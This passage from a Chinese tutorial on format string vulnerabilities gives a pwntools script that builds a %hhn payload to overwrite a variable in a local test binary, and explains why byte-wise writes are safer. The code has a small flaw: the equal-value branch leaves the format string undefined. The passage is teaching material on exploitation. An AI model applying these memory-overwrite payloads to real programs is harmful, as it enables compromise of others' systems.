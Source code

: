 参数含义：

- offset表示要覆盖的地址最初的偏移
- size表示机器字长
- addr表示将要覆盖的地址。
- target表示我们要覆盖为的目的变量值。

最终修改b变量为0x12345678的脚本如下：

```python
#!/usr/bin/python

from pwn import *
def fmt(prev,word,index):
	if(prev < word):
		result = word-prev
		fmtstr = "%" + str(result) + "c"
	elif(prev == word):
		result = 0
	else:
		result = 256 + word-prev
		fmtstr = "%" + str(result) + "c"
	fmtstr += "%" + str(index) + "$hhn"
	return fmtstr

def fmt_str(offset,size,addr,target):
	payload = ""
	for i in range(4):
		if(size ==4):
			payload += p32(addr + i)
		else:
			payload += p32(addr + i)
	prev = len(payload)
	for i in range(4):
		payload += fmt(prev, (target >> i * 8)&0xff, offset + i)
		prev = (target >> i * 8)&0xff
	return payload    

re = process('./a,out')
payload = fmt_str(6,4,0x0804A02C,0x12345678)
print payload

re.sendline(payload)
print re.recv()

re.interactive()	
```

当然，我们也可以利用%n分别对每个地址进行写入[这样就是4字节写入]，也可以得到对应的答案，但是由于我们写入的变量都只会影响由其开始的四个字节，所以最后一个变量写完之后，我们可能会修改之后的三个字节，如果这三个字节比较重要的话，程序就有可能因此崩溃。而**采用%hhn**则不会有这样的问题，因为这样**只会修改相应地址的一个字节**。